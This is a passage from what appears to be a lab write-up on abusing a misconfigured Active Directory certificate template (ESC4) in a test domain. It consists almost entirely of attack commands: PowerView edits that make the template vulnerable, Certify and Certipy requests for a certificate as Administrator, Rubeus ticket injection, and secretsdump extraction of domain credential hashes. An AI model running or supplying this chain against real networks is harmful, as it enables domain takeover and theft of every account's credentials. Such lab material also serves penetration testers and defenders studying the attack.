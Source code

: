 ```
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mcafeelab,DC=local" -Identity ESC4 -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# Set application policy extension to client authentication
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mcafeelab,DC=local" -Identity ESC4 -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose

```
<img src="/images/2022-09-16/ESC4_exploit1.png">  

Before and after altering the cert template:  
<img src="/images/2022-09-16/ESC4_beforeafter.png">  

```
# PWN
.\Certify.exe request /ca:'DC2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1' /template:"ESC4" /altname:"Administrator" /install

# Export the cert

.\Rubeus.exe asktgt /domain:mcafeelab.local /dc:dc2016-2.mcafeelab.local /user:Administrator /certificate:esc4.pfx /password:test /ptt
```


#### Certipy  
```
certipy req -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -template 'ESC4' -upn 'Administrator@mcafeelab.local'
certipy auth -pfx 'administrator.pfx' -dc-ip '10.55.0.2' -username 'Administrator' -domain 'mcafeelab.local'
secretsdump.py -just-dc -hashes 'aad3b435b514...:...f7207931' 'mcafeelab.local/Administrator@dc2016-2.mcafeelab.local'  
```
